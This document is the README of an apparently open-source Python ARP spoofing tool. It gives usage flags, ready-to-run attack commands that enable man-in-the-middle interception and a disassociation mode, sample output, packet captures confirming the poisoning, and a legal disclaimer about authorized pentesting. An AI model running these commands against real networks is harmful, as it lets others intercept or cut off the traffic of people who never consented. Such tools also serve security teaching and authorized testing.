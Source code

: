 # Python 3 ARP Spoofing Tool

![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)
![OS](https://img.shields.io/badge/OS-GNU%2FLinux-red?style=for-the-badge&logo=linux)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/eonraider/arp-spoofer?style=for-the-badge)](https://www.codefactor.io/repository/github/eonraider/arp-spoofer)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/reddit/user-karma/combined/eonraider?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![GitHub](https://img.shields.io/github/followers/eonraider?label=GitHub&logo=github&style=flat-square)](https://github.com/EONRaider)
[![Twitter](https://img.shields.io/twitter/follow/eon_raider?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages
a low-level assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.

```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] [-i INTERFACE] [--attackermac MAC] [--gatemac MAC]
            [--targetmac MAC] [--gateip IP] [--interval TIME] [-d | -f]
            TARGET_IP

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  TARGET_IP                    IP address currently assigned to the target.

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface on the attacker machine to send packets
                        from.
  --attackermac MAC     MAC address of the NIC from which the attacker machine
                        will send the spoofed ARP packets.
  --gatemac MAC         MAC address of the NIC associated to the gateway.
  --targetmac MAC       MAC address of the NIC associated to the target.
  --gateip IP           IP address currently assigned to the gateway.
  --interval TIME       Time in between each transmission of spoofed ARP
                        packets (defaults to 0.5 seconds).
  --disassociate        Execute a disassociation attack in which a randomized
                        MAC address is set for the attacker machine,
                        effectively making the target host send packets to a
                        non-existent gateway.
  -f, --ipforward       Temporarily enable forwarding of IPv4 packets on the
                        attacker system until the next reboot. Set this to
                        intercept information between the target host and the
                        gateway, performing a man-in-the-middle attack.
                        Requires administrator privileges.
```


## Running the Application

#### METHOD I: "Too long, didn't read"
<table>
<tbody>
  <tr>
    <td>Objective</td>
    <td>Perform the attack with a single command and script-kid our way 
    to victory</td>
  </tr>
  <tr>
    <td>Execution</td>
    <td><b>sudo python3 arpspoof.py TARGET_IP -f</b></td>
  </tr>
</tbody>
</table>

#

#### METHOD II: Detailed Usage

<table>
<thead>
  <tr>
    <th colspan="2">Step 1 of 2</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Objective</td>
    <td>Perform an <a href="https://en.wikipedia.org/wiki/ARP_spoofing" 
    target="_blank" rel="noopener noreferrer">ARP Cache Poisoning</a> with 
    <a href="https://en.wikipedia.org/wiki/Man-in-the-middle_attack" 
    target="_blank" rel="noopener noreferrer">Man-in-the-middle (MITM)
    </a> attack against a target with IP address <b>10.0.1.6</b> on our 
    local network segment</td>
  </tr>
  <tr>
    <td>Execution</td>
    <td><b>sudo python3 arpspoof.py 10.0.1.6 -f</b></td>
  </tr>
  <tr>
    <td>Outcome</td>
    <td>Automatic configuration and subsequent transmission of spoofed ARP 
    packets until EOF signal (Ctrl-C). Refer to sample output below.</td>
  </tr>
  <tr>
    <td>Observations</td>
    <td>Notice how the remaining settings are automatically obtained, 
    including a setup for forwarding of IPv4 packets to enable a MITM 
    attack (set by the -f switch)</td>
  </tr>  
  </tbody>
</table>

- Sample Output

```
user@host:~$ sudo python3 arpspoof.py 10.0.1.6 -f
  
[>>>] ARP Spoofing configuration:
    [+] IPv4 Forwarding .....................True
    [+] Interface       .....................eth0
    [+] Attacker MAC    ........08:92:27:dc:3a:71
    [+] Gateway IP      .................10.0.1.1
    [+] Gateway MAC     ........52:93:d0:92:c5:06
    [+] Target IP       .................10.0.1.6
    [+] Target MAC      ........91:8b:28:93:af:07

[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```

<table>
<thead>
  <tr>
    <th colspan="2">Step 2 of 2</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Objective</td>
    <td>Check the traffic generated by the attack and make sure it is actually working</td>
  </tr>
  <tr>
    <td>Execution</td>
    <td>Use an inspection tool such as <a href="https://github.com/EONRaider/Packet-Sniffer" target="_blank" rel="noopener noreferrer">Network Packet Sniffer</a></td>
  </tr>
  <tr>
    <td>Outcome</td>
    <td>Refer to sample output below</td>
  </tr>
  <tr>
    <td>Observations</td>
    <td>Check that packets #5 and #6 map the gateway and target IP addresses to the attacker MAC address (meaning that the attack was successful)</td>
  </tr>
</tbody>
</table>

- Sample Output

```
[>] Packet #1 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> ff:ff:ff:ff:ff:ff
    [+] ARP Who has      10.0.1.6 ? -> Tell 10.0.1.5
[>] Packet #2 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] ARP ...............10.0.1.6 -> Is at 91:8b:28:93:af:07
[>] Packet #3 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] IPv4 ..............10.0.1.5 -> 10.0.1.6        | PROTO: UDP TTL: 64
    [+] UDP ..................52949 -> 54663
[>] Packet #4 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] IPv4 ..............10.0.1.6 -> 10.0.1.5        | PROTO: ICMP TTL: 64
    [+] ICMP ..............10.0.1.6 -> 10.0.1.5        | Type: OTHER
[>] Packet #5 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 52:54:00:12:35:00
    [+] ARP ...............10.0.1.6 -> Is at 08:92:27:dc:3a:71
[>] Packet #6 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] ARP ...............10.0.1.1 -> Is at 08:92:27:dc:3a:71
```

*And that's it! The attack will persist until otherwise aborted.*

#

### But how is this possible?

The simplest command for this tool consists of
`sudo python3 arpspoof.py TARGET_IP`

Then where do the remaining settings such as Target MAC, Gateway IP and
Attacker MAC come from? How is IPv4 forwarding enabled?

A brief explanation can be found in the docstring of the `ARPSetupProxy`
class in the
[packets.py](https://github.com/EONRaider/Arp-Spoofer/blob/master/packets.py)
file:

> Performs a best-effort attempt to query the system and network for
information necessary to build the ARP attack packets. **It allows the
user to initiate an attack by simply supplying the target's IP
address**. *All other required settings are looked up from the
attacker system's ARP and routing tables and by probing ephemeral
ports on the target host.*

This tool prioritizes the automated gathering of all information
required to initiate the attack, releasing the Penetration Tester from
going through all the manual processes required by similar tools.

With that in mind we have that **the following operations are the ones 
executed by the application to obtain each setting:**
- `IPv4 Forwarding`: Execute a subprocess call to set
`net.ipv4.ip_forward=1` in `sysctl`
- `Interface`: Parse the attacker's routing table and look for
interfaces mapping valid routes to the gateway.
- `Attacker MAC`: Bind to interface and query name from `socket`
- `Gateway IP`: Parse the attacker's routing table and find the route
with `0x0003` flag set.
- `Gateway MAC`: Parse the attacker's ARP table looking for devices
with `Gateway IP`.
- `Target MAC`: Send a UDP datagram with an empty byte string to a
random ephemeral port on the target system (effectively making the
attacker system execute an ARP request followed by an ICMP probe
to the broadcast address) and then reading the newly written
information from the ARP table.

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end-user's responsibility to obey all applicable local, state
and federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity and/or availability of
systems and their associated resources by leveraging the exploitation of known
or unknown vulnerabilities present in said systems, including, but not limited
to, the implementation of security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
